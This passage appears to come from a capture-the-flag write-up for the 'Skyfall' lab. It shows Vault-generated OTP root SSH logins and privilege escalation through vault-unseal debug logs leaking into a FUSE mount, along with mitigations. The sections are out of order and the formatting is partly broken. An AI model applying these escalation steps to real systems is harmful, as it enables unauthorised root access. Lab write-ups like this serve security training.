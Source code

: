 This means: Vault can generate **OTP-based root SSH logins**.

Generate OTP:

```bash
vault write ssh/creds/admin_otp_key_role ip=127.0.0.1
```

Example output:

```
Key           Value
---           -----
otp           7f9a2e1b-abc1-45ce
```

Now SSH:

```bash
ssh root@skyfall.htb
# Enter OTP when prompted as password
```

Boom — root shell.

---

## Wrap-up / Variations

- **Alternative exploit:** Instead of memfs, you could mount with `sshfs` or `curlftpfs` if root was logging to configurable paths.  
- **Privilege escalation vector:** Here the privilege escalation is specifically via `vault-unseal` logging unsafe secrets into a world-exposed FUSE mount.  
- **Mitigation on real systems:**
  - Remove `user_allow_other` from `/etc/fuse.conf`
  - Configure logs to safe paths not influenced by user CWD
  - Avoid storing Vault root tokens in config  

##
##


Running this program with -h shows the help menu:

```
askyy@skyfall:~$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -h
Usage:
  vault-unseal [OPTIONS]

Application Options:
  -v, --verbose        enable verbose output
  -d, --debug          enable debugging output to file (extra logging)
  -c, --config=PATH    path to configuration file

Help Options:
  -h, --help           Show this help message
It looks like a modified version of [this program][(https://github.com/lrstanley/vault-unseal). Instead of offering --log-path, it offers --debug.

Running it does generate a debug.log file in the current directory:

askyy@skyfall:~$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -vd
[+] Reading: /etc/vault-unseal.yaml
[-] Security Risk!
[+] Found Vault node: http://prd23-vault-internal.skyfall.htb
[>] Check interval: 5s
[>] Max checks: 5
[>] Checking seal status
[+] Vault sealed: false
askyy@skyfall:~$ ls -l
```